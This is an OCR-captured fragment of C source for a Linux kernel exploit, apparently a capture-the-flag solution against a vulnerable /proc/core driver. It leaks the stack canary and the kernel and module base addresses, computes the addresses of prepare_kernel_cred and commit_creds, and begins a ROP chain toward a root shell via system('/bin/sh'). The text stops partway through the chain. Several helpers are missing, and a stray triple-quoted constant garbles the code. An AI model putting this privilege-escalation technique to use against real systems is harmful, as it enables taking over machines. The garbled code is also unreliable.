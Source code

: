 ```c

void core_write(char *buf,int a3){
    write(fd,buf,a3);
}

void core_copy_func(long long size){
    ioctl(fd,0x6677889a,size);
}

void shell(){
    system("/bin/sh");
}

unsigned long user_cs, user_ss, user_eflags,user_sp	;
void save_stats(){
	asm(
		"movq %%cs, %0\n"
		"movq %%ss, %1\n"
		"movq %%rsp, %3\n"
		"pushfq\n"
		"popq %2\n"
		:"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
 		:
 		: "memory"
 	);
}

int main(){
    int ret,i;
    char buf[0x100];
    size_t vmlinux_base,core_base,canary;
    size_t commit_creds_addr,prepare_kernel_cred_addr;
    size_t commit_creds_offset = 0x9c8e0;
    size_t prepare_kernel_cred_offset = 0x9cce0;
    size_t rop[0x100];
    save_stats();
    fd = open("/proc/core",O_RDWR);
    change_off(0x40);
    core_read(buf);
    /*
    for(i=0;i<0x40;i++){
    printf("[*] The buf[%x] is:%p\n",i,*(size_t *)(&buf[i]));
    }
    */
    vmlinux_base = *(size_t *)(&buf[0x20]) - 0x1dd6d1;  '''0x1dd6d1'''
    core_base = *(size_t *)(&buf[0x10]) - 0x19b;
    prepare_kernel_cred_addr = vmlinux_base + prepare_kernel_cred_offset;
    commit_creds_addr = vmlinux_base + commit_creds_offset;
    canary = *(size_t *)(&buf[0]);
    printf("[*]canary:%p\n",canary);
    printf("[*]vmlinux_base:%p\n",vmlinux_base);
    printf("[*]core_base:%p\n",core_base);
    printf("[*]prepare_kernel_cred_addr:%p\n",prepare_kernel_cred_addr);
    printf("[*]commit_creds_addr:%p\n",commit_creds_addr);
    //junk
    for(i = 0;i < 8;i++){
        rop[i] = 0x66666666;                //offset
    }
    rop[i++] = canary;                      //canary
    rop[i++] = 0;                           //rbp(junk)
    rop[i++] = vmlinux_base + 0xb2f;        //pop_rdi_ret;
    rop[i++] = 0;                           //rdi
    rop[i++] = prepare_kernel_cred_addr;
```
